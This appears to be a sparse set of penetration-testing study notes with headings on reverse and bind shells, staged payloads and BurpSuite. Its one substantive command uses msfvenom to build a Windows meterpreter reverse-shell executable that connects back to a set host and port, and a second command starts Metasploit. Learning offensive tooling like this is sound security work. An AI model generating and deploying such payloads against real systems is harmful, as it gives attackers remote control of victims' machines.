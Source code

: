 ## Reverse Shells, Bind Shells, Forward Shells

## Staged and Non-Staged Payloads

Create payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.111.45 LPORT=4646 -f exe -o reverse.exe
```

Run [Metasploit](https://www.metasploit.com/):

```bash
msfdb run
```

## Exploitation Types

## BurpSuite

